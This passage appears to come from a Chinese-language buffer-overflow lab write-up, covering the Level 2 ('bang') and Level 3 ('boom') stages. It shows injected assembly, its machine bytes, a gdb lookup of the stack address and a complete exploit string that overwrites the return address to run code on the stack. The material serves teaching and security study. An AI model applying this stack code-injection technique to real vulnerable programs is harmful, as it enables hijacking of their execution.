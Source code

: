 所以分别是global_value和cookie

制造汇编代码：

```
mov 0x804d190,%eax
mov %eax,0x804d198
push $0x08049495
ret
```

生成机器语言：

```
test.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:	a1 90 d1 04 08       	mov    0x804d190,%eax
   5:	a3 98 d1 04 08       	mov    %eax,0x804d198
   a:	68 95 94 04 08       	push   $0x8049495
   f:	c3                   	ret    
```

获取栈顶位置：

```
(gdb) b getbuf
(gdb) r -u 学号
(gdb) p/s $ebp-0x31
$1 = (void *) 0x5568773f <_reserved+1029983>
```

得到结果：

```
8b 04 25 90 d1 04 08    /* mov    0x804d190,%eax */
89 04 25 98 d1 04 08    /* mov    %eax,0x804d198 */
68 95 94 04 08          /* push   $0x8049495 */
c3                      /* ret */   
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
3f 77 68 55
```

这里这样写是因为，用攻击代码和00填充了buf，然后返回地址写的是栈顶地址，就会返回到栈顶执行攻击代码

## 4. Level 3: boom[¶](https://comp3052.p.cs-lab.top/lab1/part2/#4-level-3-boom)

前面阶段的攻击主要集中在使程序跳转到不同于正常返回地址的其他函数，以中断程序执行。因此，通过攻击字符串破坏并修改栈中原有值的方式被认为是可行的。然而，更高层次的缓冲区溢出攻击技术不仅涉及执行攻击代码以修改程序的寄存器或内存值，而且要求攻击后程序能够无痕迹地返回到原调用函数（如test函数）继续执行——即确保调用过程不被察觉。这种攻击方式难度显著提升，因为攻击者必须：

1）巧妙地将攻击机器代码嵌入栈中；
2）精准地设置返回指针，使其指向攻击代码的起始位置；
3）在攻击完成后，完全恢复栈帧状态，消除所有破坏痕迹。
